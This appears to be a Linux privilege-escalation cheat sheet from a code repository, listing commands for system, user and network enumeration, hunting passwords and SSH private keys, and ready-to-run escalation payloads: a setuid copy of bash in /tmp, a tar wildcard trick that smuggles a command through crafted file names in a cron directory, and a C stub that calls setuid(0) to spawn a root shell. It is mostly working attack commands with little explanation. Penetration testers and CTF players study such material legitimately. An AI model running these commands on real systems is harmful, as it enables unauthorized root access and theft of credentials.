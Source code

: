 # Linux Privesc Cheat-Sheet

## System Enumeration

Kernel info - ``` uname -a ```

Proccesses,services - ```ps aux, ps aux | grep root```

Suid - ```find / -perm -u=s -type f 2>/dev/null, find / -type f -perm -04000 -ls 2>/dev/null find / -perm -4000 2>/dev/null```

trace - ```strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"```

Capabilities - ```getcap -r / 2>/dev/```

NFS - ```cat /etc/exports```

Architechture and cpu info - ```lscpu```

## User Enumeration

Info about user - ```whoami, id```

What can we run as sudo - ```sudo -l```

Users - ```cat /etc/passwd, cat /etc/passwd | cut -d : -f 1```

## Network Enumeration

IP info - ```ifconfig```

Routing info - ```ip route```

Connections - ```netstat```

## Password Hunting

Password phrases - ```grep --color=auto -rnw '/' -ie "Password=" --color=always 2> /dev/null```

Password files - ```locate password```

Finding ssh keys - ```find / -name id_rsa 2> /dev/null```

## Useful commands

```echo "cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p" > file```

###cron wildcards

```

echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh

touch /home/user/--checkpoint=1

touch /home/user/--checkpoint-action=exec=sh\ runme.sh

/tmp/bash -p

```

```echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c```


## Automated Tools

1.Linpeas

2.LinEnum

3.Linux exploit suggester

4.Linux privchecker
